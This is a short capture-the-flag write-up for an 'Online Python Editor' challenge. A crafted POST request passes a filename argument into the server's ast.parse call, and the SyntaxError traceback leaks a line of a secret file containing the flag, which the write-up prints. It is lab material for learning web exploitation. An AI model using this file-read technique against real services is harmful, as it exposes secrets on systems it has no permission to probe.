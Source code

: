 # Online Python Editor
Solved by: 

### Question:
If you're tired of fast and good-looking editors, try this.

Now with extra crispiness!

### Solution:
1. Send a POST request to the URL with the payload

```
POST http://python.ctf.theromanxpl0.it:7001/check
{
  "source": "main()\nmain()\nmain()\n\n\ninvalid syntax\n\n",
  "filename": "secret.py"
}

resp:
{
  "error": "Traceback (most recent call last):\n  File \"/app/app.py\", line 14, in check\n    ast.parse(**request.json)\n    ~~~~~~~~~^^^^^^^^^^^^^^^^\n  File \"/usr/local/lib/python3.13/ast.py\", line 54, in parse\n    return compile(source, filename, mode, flags,\n                   _feature_version=feature_version, optimize=optimize)\n  File \"secret.py\", line 6\n    FLAG = \"TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}\"\n            ^^^^^^\nSyntaxError: invalid syntax\n",
  "status": false
}
```

**Flag:** `TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}`